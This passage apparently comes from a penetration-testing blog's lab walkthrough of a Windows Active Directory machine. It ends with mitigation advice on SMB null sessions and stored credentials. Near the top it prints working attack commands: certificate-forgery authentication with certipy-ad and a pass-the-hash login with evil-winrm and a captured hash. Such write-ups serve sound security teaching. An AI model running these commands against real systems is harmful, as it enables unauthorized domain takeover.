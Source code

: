 ```bash
faketime '2024-07-18 08:15:30' certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.202
```

![Authenticating as local Administrator using the forged certificate](/Pen-testing-blog/assets/images/SuccessTGTAuthenticationForgedCertificate_Escape.png "Figure 25 - Authenticating as local Administrator account using forged certificate")

### Logging in as local Administrator user on domain via pass the hash attack

The final step to escalating my privileges to local Administrator user is to login as the local Administrator via a pass the hash attack, using the captured password hash from the previous step as shown in Figure 26 below.

```bash
evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```

![Successfully login as local administrator user via pass the hash attack](/Pen-testing-blog/assets/images/SuccessfulEscalationPrivilegeAdministratorPTH_Escape.png "Figure 26 - Successful privilege escalation to local administrator via a pass the hash attack")

## Vulnerabilities - Exploitation and mitigation summary

This machine demonstrated the following vulnerabilities and showed how they can be exploited. I've also included some security controls that can mitigate exploitation:

### Security misconfiguration - Null SMB sessions enabled

Enabling null authentication to SMB file shares can result in access to sensitive data by unauthorized users. In this machine, as a result of SMB null sessions being enabled, I was able to enumerate a file share containing a sensitive document with credentials without having to authenticate.

Security best practices and controls that can block and / or mitigate the effects of this vulnerability include the following:

* Disable SMB null authentication so that only authenticated users can access file shares via the SMB protocol. In general, all access to system resources should occur only after authentication of end user identity.
* Restrict which users can access file shares via SMB protocol such as via editing Group Policy or the Windows registry
* Log all attempts to access file shares via SMB protocol. This monitoring will help to detect anomalous SMB access.

### Sensitive credential exposure

The storage of credentials in insecure locations on the local file system can result in their compromise by malicious actors. In this machine, a PDF document containing credentials was stored on a file share that did not require any authentication. As a result, I was able to use the credentials found in the document to obtain an initial foothold on the victim's machine on the AD domain.

Security best practices and controls that can block and / or mitigate the effects of this vulnerability include the following:

* Do not store credentials in files on the local file system in an insecure manner such as in plaintext and / or in an location that lacks access controls.
* Use a password manager to securely store credentials instead of in files on the local file system.
